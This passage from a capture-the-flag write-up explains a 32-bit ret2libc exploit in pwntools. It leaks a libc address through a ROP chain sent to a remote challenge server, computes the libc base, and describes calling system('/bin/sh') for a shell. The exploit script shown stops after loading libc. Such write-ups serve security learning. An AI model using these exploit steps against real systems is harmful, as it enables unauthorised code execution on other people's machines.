 Now that we know the libc version, after we download it, we can continue with the next step.

### 3. Finding the libc base address

Because ASLR is turned on, we don't know the exact location of libc. So we need to calculate the it using the leaked address we got, using the same session. Fortunately pwntools got us covered yet again.

```py
[...]
# the variables leaked_addr and libc_function are from the previous code snippet

libc = ELF("./libc6-i386_2.23-0ubuntu11.2_amd64.so")

# by subtracting the address of our leaked address from the local library's address, we get the base address
# libc.address is pwntools' special variable, that we can use to tell pwntools to calculate all offsets from this base address
libc.address = leaked_addr - libc.symbols[libc_function]

log.info("libc base address is at 0x%08x" % libc.address)
```

```sh
[*] libc base address is at 0xf7d8c000
```
The base address ends with 3 zeros, so we know that it's valid. Now everything's set up to complete our exploit.

### 4. Get a shell

Using the same technique we used to execute printf, we can find the address of `system()`, and invoke it with the parameter `/bin/sh`, which we can find hardcoded in the libc binary we downloaded.


## Completed exploit
```py
from pwn import *

context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

elf = ELF("./1337-application")

p = remote("1337b01s.duckdns.org",2525)

rop = ROP(elf)
libc_function = "__libc_start_main"
rop.call(elf.symbols["printf"], [elf.got[libc_function]])
rop.call(elf.symbols["vuln"], [elf.symbols["buf"]])

padding = cyclic(cyclic_find(0x63616164))
payload = padding + rop.chain()

p.sendline(payload)

p.recvuntil("\n")
p.recvuntil("\n")

raw_leak = p.recv(4)
leaked_addr = u32(raw_leak.ljust(4, b"\x00"))
log.info("%s found at 0x%08x from address 0x%08x" % (libc_function, leaked_addr, elf.got[libc_function]))

libc = ELF("./libc6-i386_2.23-0ubuntu11.2_amd64.so")

```